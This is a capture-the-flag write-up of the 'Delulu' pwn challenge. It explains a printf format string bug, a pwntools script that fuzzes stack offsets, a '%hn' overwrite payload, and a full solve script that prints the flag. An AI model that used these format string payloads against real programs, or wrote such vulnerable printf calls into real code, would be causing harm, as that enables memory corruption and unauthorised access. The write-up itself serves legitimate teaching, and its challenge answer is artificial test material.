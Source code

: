 ## Delulu [Very Easy]
### Initial Analysis
As usual, we start by checking the binary's protections and I particularly like to run [cwe_checker](https://github.com/fkie-cad/cwe_checker) on all challenges so we have a starting point in case nothing comes to mind after the analysis.
```bash
$ checksec delulu_patched
[*] '/home/flame/0x/ctf/htb-cyber-apocalypse-2024/pwn/delulu/challenge/delulu_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

$ cwe_checker ./delulu_patched
[CWE134] (0.1) (Externally Controlled Format String) Potential externally controlled format string for call to printf at 001014cb
```

As mentioned before, `cwe_checker` can be very useful in some cases, in this case it already detects a possible format string vulnerability in `printf`, and looking at the `checksec` output, we see that the binary has all possible protections detectable, so it's probably not a buffer overflow or anything like that.
In this challenge, we also have the source code for the binary, so we don't need the reverse engineering phase.
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 pin[2]; // [rsp+0h] [rbp-40h] BYREF
  __int64 buf[6]; // [rsp+10h] [rbp-30h] BYREF

  buf[5] = __readfsqword(40u);
  pin[0] = 0x1337BABE;
  pin[1] = (__int64)pin;
  memset(buf, 0, 32);
  read(0, buf, 31uLL);
  printf("\n[!] Checking.. ");
  printf((const char *)buf);
  if ( pin[0] == 0x1337BEEF )
    delulu();
  else
    error("ALERT ALERT ALERT ALERT\n");
  return 0;
}

unsigned __int64 delulu()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(40u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
    exit(1);
  }
  printf("You managed to deceive the robot, here's your new identity: ");
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);
  return v3 - __readfsqword(0x28u);
}
```

The program simply checks if the value of pin is equal to `0x1337beef`, but this variable is already set to a value previously, the trick in this case is to overwrite the value of the variable in the stack by means of a **format string vulnerability**.

First of all, we basically need to find the position of the variable in the stack

Normally, in binaries with **format string vulnerability**, I use a fuzzing script similar to this one to map the values on the stack, bringing along their offset
```python
from pwn import *
elf = context.binary = ELF("./delulu_patched", checksec=False)

for i in range(100):
    try:
        p = process(level="error")
        p.sendlineafter(b">> ", "%{}$p".format(i).encode())

        result = p.recvuntil(b"[-]", drop=True)
        result = result.strip().split()[2]
        
        print(str(i) + ": " + str(result))
        p.close()
    except EOFError:
        pass
```

We can see that the value of the variable is in position `6` of the stack, the next address, at offset `7`, must be the actual address of the variable
```bash
~/delulu $ python3 fuzz.py
0: b'%0$p'
1: b'0x7fff0372f270'
2: b'(nil)'
3: b'0x7887ccb14887'
4: b'0x10'
5: b'0x7fffffff'
6: b'0x1337babe'
7: b'0x7fff2b59d3b0'
```

To confirm this, we can change the type of value we want to return in the format string payload, we'll change `$s` (string)
```bash
~/delulu $ python3 fuzz.py
0: b'%0$s'
1: b'[!]'
2: b'(null)'
3: b'H='
7: b'\xbe\xba7\x13'
```

Now we can see that the value of offset `7` in string, is the value of the `PIN` variable, knowing the offset to the variable address, we need to overwrite this value in the stack

>Some useful resources: \
https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/#overwriting-memory-at-any-location \
https://axcheron.github.io/exploit-101-format-strings/#writing-to-the-stack

Since we only need to change the bytes of the variable (1337**babe** > 1337**beef**), the process becomes faster and easier, we can do it in two ways:
Using the hexadecimal value we want to overwrite and the position 
```python
payload = f"%{0xbeef}c%7$hn"
```

Or using the decimal representation
```python
payload = "%48879x%7$hn"
```

Note that in both examples we are using `$hn` instead of just $n, because we only want to overwrite the first **2 bytes** **(little-endian)** of the variable.

| Modifier | Description                                                       | Example                                                    |
| -------- | ----------------------------------------------------------------- | ---------------------------------------------------------- |
| i$       | Direct parameter access; Specifies the parameter to use for input | `%2$x` : hex value of second parameter                     |
| %ix      | Width modifier. Specifies the minimum width of the output.        | `%8x`: Hex value taking up 8 columns                       |
| %hh      | Length modifier. Specifies that length is sizeof(char)            | `%hhn`: Writes 1 byte to target pointer                    |
| %h       | Length modifier. Specifies that length is sizeof(short)           | `%hn`: Writes 2 bytes (in 32 bit System) to target pointer |
### Solution
By understanding all the steps, we can put together the final exploit, which will look something like this
```python
#!/usr/bin/env python3
from pwn import *

def start(argv=[], *a, **kw):
    """Start the exploit against the target."""
    if args.GDB:
        return gdb.debug(
            [exe] + argv, gdbscript=gdbscript, *a, **kw
        )
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

exe = "./delulu_patched"
elf = context.binary = ELF(exe, checksec=False)

p = start()

payload = f"%{0xbeef}c%7$hn"

p.sendlineafter(b'>>', bytes(payload, 'latin-1'))
flag = p.recvall().strip().split()[-1].decode()
info("Flag: " + flag)
```

The result is
```bash
~/delulu $ python3 solve.py
[+] Starting local process './delulu_patched': pid 127360
[+] Receiving all data: Done (47.83KB)
[*] Process './delulu_patched' stopped with exit code 0 (pid 127360)
[*] Flag: HTB{m45t3r_0f_d3c3pt10n}
```

> Flag: HTB{m45t3r_0f_d3c3pt10n}
